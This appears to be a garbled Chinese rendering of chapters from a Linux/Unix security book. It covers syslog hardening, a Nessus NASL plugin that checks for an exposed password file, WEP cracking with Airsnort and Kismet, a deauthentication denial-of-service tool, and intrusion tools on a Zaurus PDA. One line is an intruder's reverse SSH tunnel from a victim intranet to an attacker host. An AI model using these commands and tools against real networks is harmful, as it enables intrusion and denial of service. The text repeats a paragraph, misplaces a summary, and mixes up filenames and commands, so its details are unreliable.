在五次登录失败后，所有后续尝试都将记录在此文件中。每个日志事件包含登录名称、终端类型信息和时间。只有当该文件存在时才会记录日志。因此，如果文件不存在，请使用 `touch` 命令创建它。确保 `root` 用户可以读取此文件。

### /var/adm/sulog

该命令用于登录另一个用户的账户。例如，用户 `joe` 可以输入 `su` 来登录 `jack` 的账户：

```
joe's_bash]$ su - jack
Password:jackpassword
[jack's_bash]$
```

同样，用户也可以以 `root` 本地用户登录：

```
joe's_bash]$ su -
Password:rootpassword
[root's_bash]$
```


记录所有 `su` 尝试是非常关重要的。这有助于检测恶意本地用户的暴力破解密码尝试。编辑 `/etc/default/su` 并确保 `SULOG` 的值指向 `/var/adm/sulog`。您也可以通过设置 `SYSLOG` 的值为 `YES` 来启用 `syslogd` 日志。

### /var/log/cron

`cron` 守护进程将信息在此文件中。编辑 `/etc/syslog.conf` 并确保包含以下行：

```
cron.*[tab]/var/log/cron
```

### /var/log/maillog

此文件包含主机邮件服务器记录的信息。关于发送和接收电子邮件的详细信息以及相应的错误消息都会在此文件中。编辑 `/etc/syslog.conf` 并确保存在以下行：

```
mail.*[tab]/var/log/maillog
```

### /var/log/messages

此文件包含 `syslogd` 记录的提示性消息。要启用到此文件的记录，`/etc/syslog.conf` 中必须存在类似下面的行：

```
*info:mail.none;authpriv.none;cron.none[tab]/var/log/messages
```

### /var/log/secure

通过用户名和密码或其他机制进行验证的进程通常记录在此文件中。确保此文件对 `root` 是只读的。`/etc/syslog.conf` 中必须存在类似下面的行：

```
authpriv.*[tab]/var/log/secure
```

### /var/log/wtmp

此文件包含关于主机上发生的所有登录信息。它不是一个 ASCII 文件，因此必须使用 `last` 等工具进行查看。以下示例显示了最近的五登录或注销尝试：

```
[bash]$ last  | head -5

nit pts/0      gateway        Apr 11 10:12 still logged in

anita pts/1      nest           Thu 10 21:14 still logged in

ozzy pts/1      gateway        Thu 10 21:06 - 21:08 (00:02)

kelly pts/1      ftpserver      Thu 10 20:01 - 20:02 (00:00)

asharon pts/0    wireless       Thu 10 16:34 - 21:26 (04:52)
```

### /var/run/utmp

此文件包含关于当前登录主机的用户信息。它不是一个 ASCII 文件，因此必须使用 `w` 或 `who` 等工具进行查看。

```
[bash]$ who

deepti pts/0      Apr 14 10:12 (intranet)

yash pts/1       Apr 13 21:14 (egmoreftp)

atasha pts/0      Apr 13 20:10 (punehtup)
```

### 日志轮转

日志文件往往增长非常快并消耗大量磁盘空间。对于某些环境，删除旧日志是有意义的。要启用日志轮转，大多数发行版使用 `newsyslog` 或 `logrotate` 等工具。应该使用 `cron` 守护进程在理想的时间调用这些工具。请检查 `newsyslog` 或 `logrotate` 的帮助页。

### /var 中的可用空间

根据环境的不同，`/var` 目录可能会很大。使用 `df` 命令定期检查 `/var` 的可用空间是一个好主意。`/var` 必须挂载为独立分区。更多信息请参见第 8 章的“磁盘分区”。

### 补丁

保持软件补丁更新是最重要的。根据您的发行版，下表列出了最流行的 Unix 和 Linux 发行版的补丁获取地址：

| 发行版 | 补丁 |
|---|---|
| AIX | http://www.ibm.com/ |
| BSD | http://www.bsdi.com/ |
| Caldera OpenLinux | ftp://calderasystems.com/ |
| Debian Linux | http://www.debian.org/ |
| FreeBSD | ftp://freebsd.org/ |
| IRIX | http://www.sgi.com/ |
| HP Unix | http://www.hp.com/ |
| Mandrake Linux | http://www.mandrake.com/ |
| NetBSD | http://www.netbsd.org/ |
| OpenBSD | ftp://openbsd.org/ |
| Red Hat Linux | http://www.redhat.com/ |
| Slackware Linux | ftp://slackware.com/ |
| Solaris | http://www.sun.com/ |
| SuSE Linux | http://www.suse.com/ |

### 插件

本节描述了如何使用 Nessus 检测 Web 服务器上是否存在 `/src/password.inc` 文件。首先，我们必须编写一个 NASL 脚本来实现此。该脚本将作为 Nessus 的“插件”。以下是此类脚本的样式：

```
if(description)

  script_id(99999);

  script_version("$Revision: 1.0 $");

  script_name(english: "Checks for /src/password.inc");

  desc["ENGLISH"] = "/src/password.inc 通常由 XYZ 算法安装，其中包含明文用户密码信息。"
```

解决方案：配置您的 Web 浏览器不提供 `.inc` 文件。

风险因素：高；

```
script_description(english:desc["english"]);

  script_summary(english:"Checks for the existence of /src/password.inc");

  script_category(ACT_GATHER_INFO);

  script_copyright(english:"This script is Copyright (C)2003 Nitesh Dhanjani");

  script_family(english:"CGI abuses");

  script_require_ports("Services/www", 80);

  exit(0);

  include("http_func.inc");

  port = 80;
```

```
if(get_port_state(port))

{

  hget = http_get(item:"/src/passwd.inc", port:port);

  mysoc = http_open_socket(port);

  if(!mysoc) exit(0);

  send(socket:mysoc, data:hget);

  myrec = http_recv(socket:mysoc);

  http_close_socket(mysoc);

  if (!("404") <> myrec)

{

  security_hole(port);

}
```


当 Nessus 运行脚本以提取插件摘要信息时，`description` 变量的值设置为 1。因此，当 `description` 的值为真且非零时，我们定义了各种插件描述变量值。
`script_id` 函数为插件设置一个唯一 ID。每个插件的值必须是唯一的。在我们的情况下，可以将其设置为 9999 等高数字以确保值的独立性。`script_version` 函数显示插件的版本信息。更新此内容以反映插件的最新版本是一个好主意。`script_description` 函数设置插件描述，当用户查询插件时 Nessus 客户端会显示。同样，`script_summary` 函数用于设置插件的摘要。
`script_category` 函数根据 Nessus 的要求设置插件的类别。在我们的情况下，我们设置为 `ACT_GATHER_INFO`，因为该插件收集远程服务的信息；它检查 Web 服务器上是否存在 `/src/passwd.inc` 文件。`script_copyright` 函数用于设置作者版权信息。
Nessus 将插件分为不同的“家族”（families），以帮助对执行的漏洞进行分类。我们将其设置为“CGI abuses”，以表示对基于 CGI 的 Web 应用程序的利用。访问 http://cgi.nessus.org/plugins/dump.php?viewby=family 查看按家族分类的可用插件列表。
可以通过在 GUI 客户端的“扫描选项（Scan Option）”中选择适当的私有检查（private check）来优化测试。当启用此选项时，Nessus 会扫描与目标机器开放端口上运行的应用程序相关的漏洞。`script_require_ports` 函数可用于设置与远程机器漏洞相关的端口，在我们的案例中它被设置为 www (HTTP)。

上述函数为插件设置了各种值。可以在 Nessus GUI 客户端“插件（Plugins）”选项卡中双击相应的插件来查看插件描述。此截图如图 10-1 所示。
`http_func.inc` 文件包含了方便我们使用的有用 HTTP 函数列表。我们使用 `include` 函数在文件中引入了这些函数。
`get_port_state` 函数用于检查目标主机上特定端口的状态。在我们的情况下，我们检查 80 端口。如果该端口关闭，则没有必要继续，因此我们调用 `exit(0)`。
为了检查 Web 服务器上是否存在 `/src/passwd.inc` 文件，连接 Web 服务器的 HTTP 请求格式必须如下：

```
GET /src/passwd.inc HTTP/1.0
```


图 10-1. Nessus GUI 显示的插件描述

可以使用 `http_get` 函数创建上述 GET 请求。该请求可以作为参数传递给 `send` 函数，将请求发送到由 `http_open_socket` 打开的目标主机套接字。使用 `http_recv` 函数读取 Web 服务器的数据并将其存储在 `myrec` 变量中。完成后，使用 `http_close_socket` 关闭套接字。然后检查 `myrec` 的内容是否包含子字符串 404，如果在从 Web 服务器返回的数据未找到 404，则该文件存在，通过调用 `security_hole` 函数向 Nessus 指明这一事实。
请参阅 http://www.nessus.org/doc/nasl_reference.pdf 获取 NASL 参考。

### 运行插件

确保上述脚本放在 Nessus 的 plugins 目录中。文件名必须以 `.nasl` 结尾。运行 Nessus GUI 并选择“插件（Plugins）”选项卡。确保勾选了 CGI abuses。高亮 CGI abuses 并启用名为“Checks for /src/password.inc”的插件。如果你在查找插件时遇到困难，点击 Filter（过滤器）按钮搜索 ID 为 9999 的插件。
为了从我们的插件获得正面结果，你必须配置本地 Web 服务器提供 `/src/passwd.inc` 文件。如果你运行着 Apache Web 服务器，只需执行：

```
mkdir /www/html
touch /src/passwd
```


在 Selection（选择）选项卡中输入目标的 IP 地址或名称并点击 Start。如果一切顺利，Nessus 将检测到漏洞，如图 10-2 所示。

# 第10章：Nessus 脚本语言 (NASL)


**图 10-2.** Nessus 报告显示存在 `/src/password`

# 第11章

## 无线破解

本章：
- WEP 简介
- 天线
- 流行工具
- 无线网络安全

无线网络设置非常简单，对于那些讨厌被以太线束缚的人来说是一个福音。由于 802.11 标准使用的无线加密（WEP）协议存在漏洞，从安全角度来看，它们也是噩梦。由于有 `Airodump` 和 `Kismet` 等免费开源工具，任何拥有无线网卡和笔记本电脑的人都可以入侵无线网络。已知有人在城市里“巡战”（war driving），寻找无线网络范围超出办公室区域的企业，以便到达停车场等便利场所。遗憾的是，许多无线网络管理员并没有意识到这一点，并且对这些入侵者毫无感知。本章描述了入侵者获取无线网络的工具和技术，并包含了如何更好地保护它们的建议。

### WEP 简介

由于 WEP 基于对称共享密钥系统，它使用相同的密钥来加密和解密数据。密钥 `$k$` 长度为128 位或 64 位，由 24 位的初始化向量 `IV`。WEP 负载的构建如下：

- 消息 `$M$` 与其自身的 CRC-32 校验和 `$c(M)$` 拼接：

| `$M$` | `$c(M)$` |

- IV 应用于密钥之前，并通过 RC4 流加密算法处理：

| `RC4(IV,k)` |

- 步骤 1 和 2 的结果通过异或（XOR）处理以产生密文。然后将 `$IV$` 与密文拼接以生成 WEP 负载：

| `$IV$` | Cipher-text = `$((M),c(M))$` XOR `$(RC4(IV,k))$` |

从上述步骤可以看出，WEP 帧包含明文形式的 IV。许多无线网卡随机选择 IV，而另一些则从 0 开始顺序递增。由于 IV 只有 24 位长，无线网卡或访问点每几小时就会重复一次。

#### 总结

本章演示了编写 Nessus 插件的简易性。首先，展示了一个漏洞示例。接下来，讨论了从零开始创建 NASL 脚本。还提供了如何将 NASL 脚本纳入 Nessus 的说明。通常，大型组织使用漏洞检测对于其安全态势至关重要。

# 第11章：无线破解

请注意，最终传输的帧除了其他信息外，还包含明文 MAC（媒体访问控制）源和目的信息。

`Airsnort` 等工具利用了 RC4 密钥调度算法（KSA）中的漏洞。这些漏洞的细节记录在 Scott Flueger、Itsik Mantin 和 Adi Shamir 的一篇研究论文中。可以通过以下 URL 获取该论文：`http://www.drizzle.com/~aboba/IEEE/rc4_ksaproc.pdf`。

### 天线

在对区域进行无线活动审计时，找到合适的天线非常重要。通过使用天线，可以接收到原本无法检测到的网络的无线信号。

定向天线：如名所示，定向天线专注于特定方向以接收和发送信号。这些天线对于在两个位置之间建立无线桥接最为有用。定向天线通常用于在两个远程位置之间建立点对链路。因此，在移动且信号方向未知时，它们的帮助不大。常见的定向天线类型包括八字形（yagi）和抛物形。

全向天线：全向天线通常用于扩展访问点的范围。它们向所有方向传输和接收信号。因此，全向天线深受进行“无线驱动”（war-driving）测试的人员欢迎。

以下是专门经营天线的热门供应商列表：

- Fleeman Anderson & Bird Corp: `http://fab-corp.com/`
- HyperLink Technologies: `http://www.hyperlinktech.com/`
- NetNimble: `http://www.netnimble.net/`
- SuperPass: `http://www.superpass.com/`
- Wireless Central: `http://www.wirelesscentral.com/`

想构建自己的低成本天线吗？请访问“802.1b Homebrew Antenna Shootout”`http://www.turnpoint.net/wireless/has.html`。

### 热门工具

`Airsnort` 和 `Kismet` 是最流行且实用的无线破解工具。它们可用于检测无线网络并破解启用 WEP 的网络的加密密钥。

> 在启用 WEP 的网络情况下，入侵者必须采取的第一步是使用 `Airsnort` 等工具获取 WEP 加密密钥。在获取密钥且入侵者成功加入无线网络后，他或她可以使用 `Ettercap`、`tcpdump` 和 `Ethereal` 等流行工具来分析网络流量。

#### Airsnort

`Airsnort`（如图 11-1 所示）是一种基于 Linux 的网络嗅探工具，通过被动监控无线传输来破解 WEP 加密密钥。`Airsnort` 可于 `http://airsnort.shmo.com/` 获取。目前，`Airsnort` 支持以下无线网：

- Cisco Aeronet
- 基于 Prism2 的卡。访问 `http://www.linux-wlan.org/` 查看支持的卡列表。
- Orinoco 卡。从 `http://airsnort.shmo.com/orinococoinfo.html` 下载驱动补丁和信息。

请参阅 `Airsnort` FAQ 获取常见问题的解答。访问地址为：`http://airsnort.shmo.com/faq.html`。



#### Kismet

`Kismet`（如图 11-2 所示）是一种无线网络嗅探器，可捕获并查看区域内无线网络的信息。它具有以下特性：

- Ncurses 界面
- 跳频
- 多数据包源
- IP 块检测
- 支持使用 gpsmap 进行 GPS 映射
- 实时 WEP 解密

……以及许多其他。访问 `http://www.kismetwireless.net/documentation.shtml` 获取更多信息。
访问 `http://www.tipsybottle.com/technology/wireless/RedHat8-Kismet-HOWTO.shtml` 查看如何在 Linux 上安装和使用 `Kismet` 的详细说明。本文包含的大部分指令也适用于 `Airsn`。

#### Fata-Jack

`Fata-Jack` 是 `Wlan-Jack` 工具的修改版本。它以关联客户端的源地址向访问点发送认证请求。该认证包被特意构造为包含



无效信息。当访问点接收到此数据包时，它会取消被伪造地址客户端的认证。受害者客户端必须与 AP 重新进行认证。因此，能够访问网络 AP 的恶意用户可以使用此工具发起拒绝服务攻击。

`Fata-Jack` 可从 `http://www.loud-fat-bloke.co.uk/w80211.html` 下载。关于 `Wlan-Jack` 的信息可见 `http://802.11ninja.net/`。

### 无线网络安全

使用 `Airsnort` 等工具，大约 5,000,000–10,000,000 个数据包就足以破解 WEP 密钥。通常情况下，一个相当活跃的网络会在几小时内传输足够数量的数据包。因此，在部署和管理无线网络时，确保充分安全性必要的。以下是一些建议：

- 1. **将网络视为“不可信”**：无线网络必须被视为不可信，并与内部网络隔离。如果必须允许无线用户访问网络，建议建立 VPN（虚拟专用网络）。
- 2. **鼓励使用加密工具**：如 `SSH` 等工具有助于创建加密隧道，并应尽可能使用。内网网站必须支持 SSL。
- 3. **不允许通过无线方式管理访问点**：某些访问点允许禁用无线管理。这是一个好主意，因为这需要物理访问点才能进行配置。
- 4. **更改默认 ESSID 并禁用广播**：ESSID（扩展集标识）是输入访问点和以太网卡的配置参数字符串。具有相同 ESSID 的设备参与同一个网络。访问点出厂时配置了特定的默认 ESSID，通常是厂商名称。更改此类默认 ESSID 是好事。许多访问点还会广播其 ESSID 以允许无线客户端从可用网络中选择。建议配置访问点禁用此功能，因为它向授权使用网络的人广播信息。注意，此步骤不能保证很大的安全性，不应依赖它。
- 5. **MAC 过滤**：考虑利用支持 MAC 过滤的访问点，仅允许具有已知 MAC 地址的选客户端使用网络。然而，这并不能阻止复杂的黑客，因为合法用户的 MAC 地址将以明文传输。这些地址可以从空气中嗅探并伪造以获取网络访问。维护一个授权的 MAC 地址列表是一个理想状态，因此在大型组织中可能无法实施。

# 第12章

## 使用 Sharp Zaurus PDA 进行黑客

本章内容：
- `Kismet`
- `Wellenreiter II`
- `Nmap`
- `Openmap`
- `Bing`
- `OpenSSH`
- `Hping2`
- `VNC Server`
- `Keypebble VNC` 查看器
- `Smbmount`
- `Tcpdump`
- `Wget`
- `ZEthereal`
- `zNessus`
- `MTR`
- `Dig`
- `Perl`
- Zaurus 的在线资源
- 总结

Sharp Zaurus PDA（个人数字助理）设备运行着嵌入版本的 Linux 操作系统。该 PDA 内置了对各种紧凑型（Compact-Flash）802.11 网卡的支持。这些功能结合 PDA 的小型外形设计，使 Zaurus 成为一个强大的设备。在本章中，我们将查看许多已经移植到 Zaurus 架构的 Linux 安全工具。在可能的情况下，我们展示了截图以满足你的好奇心。

### KISMET

`Kismet` 是一种无线网络嗅探器，可用于捕获和查看区域内无线网络的信息。入侵者不再需要在区域内随身携带笨重的笔记本电脑。只需要一台 Zaurus PDA，配合可以在 `http://kismetwireless.net/code/` 下载的 `Kismet` 端口即可。一旦下载、解压并提取该 URL 提供的 tar.gz 文件，你将在生成的 `kismetarm` 目录中找到一个 ipk 程序包文件。使用文件管理器打开此文件以安装 `Kismet`，它在 PDA 上运行时看起来如下所示。



`Kismet` 的 GUI 界面可以在 `http://sourceforge.net/projects/kismet-qte/` 获取。

### WELLENREITER II

`Wellenreiter` 是一种无线网络监控器，可用于检测和识别区域内的无线网络。`Wellenreiter` 的未来版本将支持 WEP 破解和数据包注入。在 `http://opie.net.wox/wellenreiter/feed/` 下载 `Wellenreiter`。

### NMAP

入侵者一旦使用 `Kismet` 等工具接入无线网络，他或她可能会对网络的 IP 范围进行网络扫描，以便发现并枚举主机。`Nmap` 是目前可用功能最丰富的端口扫描器之一。（有关如何使用各种方法通过 `Nmap` 进行端口扫描的详情，请参见第 2 章。）Zaurus 的 `Nmap` 端口（如下所示）可以在 `http://familiar.handhelds.org/familiar/releases/v0.7/base/armv4l/` 获取。



### QOPENMAPFE

`Qpenmapfe` 是图 12-3 所示 Zaurus `Nmap` 端口的 GUI 前，可以在 `http://home.midsouth.rr.com/zaurus/` 获取。对于那些不熟悉或不使用 `Nmap` 参数的人来说，这是一个非常有用的工具。



### BING

在所示对话框中，`Bing` 是一个自动化端口扫描的简单脚本。执行时，它通过广播 ping 请求来发现当前子网上的活动主机。然后它会列出子网中响应 ICMP 回显请求的主机列表。然后你可以从给定的列表中选择一个主机进行端口扫描（使用 `Nmap`）。从 `http://www.claystuckey.com/chad/bing_0.0.1_arm.ip` 下载 `Bing` 的包文件。



### OPENSSH

`OpenSSH` 套件由支持 SSH 协议的免费客户端组成。它还包括一个免费的 SSH 服务器。Zaurus

# 第12章：使用 Sharp Zaurus PDA 进行黑客

`OpenSSH` 的 Zaurus 版本可以在 `http://killefiz.de/zaurus/showdetail.php?app=1035` 找到。入侵者可以使用 `OpenSSH` 创建一个从组织网络通往其家中的安全隧道。考虑以下情况：已接入组织无线网络的入侵者在自己的 PDA 上启动了以下命令：


```
ssh -R 80:intranet.victorgansanexample.com:8000 intruder@intruders_ip
```


在入侵者发出此命令并输入其账户或账户密码后，组织网络与其家中之间将建立一个安全隧道。入侵者可以使用 `OpenSSH` 创建一个从组织网络通往其家中的安全隧道。考虑以下情况：已接入组织无线网络的入侵者在自己的 PDA 上启动了以下命令：

## HPING2

`Hping2` 是一种用于发送任意数据包的工具。入侵者可以使用它来测试防火墙规则。`Hping2` 的手册可以在 `http://www.manpage` 获取。下图显示了 `Hping2` 带有 SYN+ACK 数据包在 Zaurus 上的运行。

| hping 2 output |
|---|
| start at: 0 0 |
|sent|received|dropped|lost|packet loss|round-trip min|avg|max|stddev|
|---|---|---|---|---|---|---|---|---|
|0|0|0|0|0%|0.000|0.000|0.000|0.000|


## 182 第 III 部分：特别主题

## VNC SERVER

`VNC`（远程桌面）是一种允许用户访问另一主机桌面的软件。Zaurus 端口可以在 `http://sdystems.com/download` 获取。经常，用户会错误地为 `VNC` 服务器配置弱密码。接入组织内网的入侵者可以使用 `VNC` 服务器主机（见图 12-1）。


## KEYPEBBLE VNC VIEWER

非常经常，用户会为 `VNC` 服务器配置弱密码。接入无线网络的入侵者可以使用 `VNC` 查看器（如下所示）。其中一种查看器 `Keypebble VNC` 查看器可以在 `http://killefiz.de/zaurus/showdetail.php?app=186` 获取。



## SMBMOUNT

`SMBmount` 工具允许用户挂载 Samba 共享。经常，用户会为 Samba 共享配置弱密码。入侵者可以使用 `SMBmount` 工具访问此类共享。（有关 Samba 配置的详细信息，请参见第 4 章。）Zaurus 版本的 `SMBmount` 工具可以在 `http://www.dasgehtnicht.de/zaurus.html` 获取。

## TCPDUMP

`Tcpdump` 是一种流行的网络分析程序，可用于嗅探网段上的敏感数据。网络管理员也使用 `Tcpdump` 和其他网络分析程序进行故障排除。Zaurus 版本的 `Tcpdump` 可以在 `http://www.sklogicsoftware.com/znetmeter/tcpdump_zaurus` 下载。

## WGET

`Wget` 是一个使用 HTTP、HTTPS 和 FTP 协议下载文件的工具。它具有许多实用功能，包括递归下载网站文件。接入组织无线网络的入侵者可以使用 `Wget` 快速镜像组织的内网网站。Zaurus 默认安装了 `Wget`。

## ZETHERALE

`Zthereal` 是流行的 GUI 网络分析器 `Ethereal` 的移植。`Zthereal` 的二进制文件和截图可以在 `http://www.cartel-info.fr/pbiondi/zaurus/zethereal.html` 获取。关于 `Ethereal` 的详细信息和文档可以在 `http://www.ethereal.com/` 找到。

## ZNESSUS

`zNessus` 工具是 `Nessus` GUI 客户端的 Zaurus 版本。截图和二进制文件可以在 `http://znessus.sourceforge.net/` 获取。`zNessus` 可用于远程配置并启动漏洞检查

# 第 12 章：使用 Sharp Zaurus PDA 185 进行破解

`Nessus` 服务器。关于 `Nessus` 扫描器的更多信息，请参阅第 4 章和第 11 章。

`zNessus` 客户端要求 `Nessus` 服务器配置为支持非加密通信（默认禁用）。如果你决定禁用 `Nessus` 服务器上的加密，请务必阻止所有流向 `Nessus` 端口（默认 `1241`）的入站流量。使用 `OpenSSH` 客户端连接到你的 `Nessus` 服务器主机，以便安全地隧道化你的 `zNessus` 流量。

### MTR

`MTR`（Matt's TraceRoute，见下图）是一个将 `ping` 和 `traceroute` 程序的功能合并到的单一程序。（关于 `ping` 和 `traceroute` 的更多信息，请参阅第 2 章。）适用于 Zaurus 的 `MTR` 端口二进制程序包可以从 `http://psifertex.com/zaurus/mtr_0.51_arm.ipk` 下载。



### DIG

`dig` 工具可用于查询 DNS 服务器以获取如 MX 记录和服务器版本信息等内容，并执行其他 DNS 查找查询。适用于 Zaurus 的 `dig` 可以在 `http://killefiz.de/zaurus/showdetail.php?app=362` 获取。

### PERL

许多安全工具（如 `Nikto` 和 `Whisker` 漏洞扫描器）都是使用 `Perl` 语言编写的。由于 `Perl` 是一种解释型语言，因此不需要重新编译已有的 `Perl` 脚本即可在 Zaurus 上运行它们。适用于 Zaurus 的 `Perl` 可以在 `http://zaurus.frontgarden.net/perl.html` 获取。

### ZAURUS 的在线资源

Zaurus PDA 在 Linux 社区中受到了极大的推崇。除了本章讨论的工具外，每天都有新的工具被创建和移植。下表中的提供了软件资源以及常见问题解答（FAQs）和社区论坛的链接。

| 说明 | URL |
| :--- | :--- |
| Zaurus 软件索引 | http://killefiz.de/zaurus/ |
| Zaurus DevNet 论坛 | http://www.zaurus.com/dev/board/ |
| Zaurus Zone | http://www.zauruszone.com/ |
| Sharp 开发者 | http://www.zaurus.com/dev/ |
| 非官方 Sharp Zaurus SL-5500 FAQ | http://www.newbreedssoftware.com/zaurus-faq/ |
| ZaurusSoft 数据库 | http://www.zaurussoft.com/ |
| OpenZaurus 替代 ROMs | http://openzaurus.org/ |

### 总结

在本章中，你查看了可以在 Zaurus PDA 上使用的各种安全工具。用于执行无线网络发现、嗅探和扫描的工具现在已适用于 Zaurus。此外，像 `Perl` 这样的脚本语言也已移植到 Zaurus，允许用户使用 `Perl` 语言运行安全工具。如此庞的安全工具库的可用性结合 Linux 操作系统的灵活性，使得 Zaurus PDA 成为一个强大的工具，可用于对目标网络执行攻击和渗透测试。

### 索引

符号与数字
- `PATH` 环境变量中的 `""`
- 利用漏洞植入木马，114–115
- 用于主机加固的移除，132
- `#`（井号），用于从 `\inet` 禁用 FTP，134
- `0`，将本地账户 `uds` 修改为，123–124
- `127.0.0.1`（环回接口），无限制
- 端口上的流量，112

# 190 黑客技巧 Linux 与 Unix 便携参考指南

### 索引

- `Apache` (HTTP 和 HTTPS), 139–140
- `BIND` (DNS), 138–139

# 194 黑客破解版 Linux 与 Unix 安全便携参考指南

通过句柄查询，13–14
通过 IP 地址或网络块查询，13
`RRRs`（区域互联网注册机构）的使用，12

# 198 HackNodes Linux 和 Unix 安全便携参考指南

- `wheel` 组，限制许多用户对 `setuid` 程序的访问，150

# 国际联系信息

澳大利亚
`McGraw-Hill Book Company Australia Pty. Ltd.`
电话 +61-2-9800-1800

# 前线安全


`HackNotes™Linux/Unix` 安全便携参考
作者：Nitesh Dhanjani
ISBN: 0-07-222786-9

# 查看 Osborne 的所有黑客书籍


`Hacking Exposed JEE & Java`
作者：A. TAYLOR, B. BUEGE, R. LAYMAN
0-07-222565-3
价格 $49.99
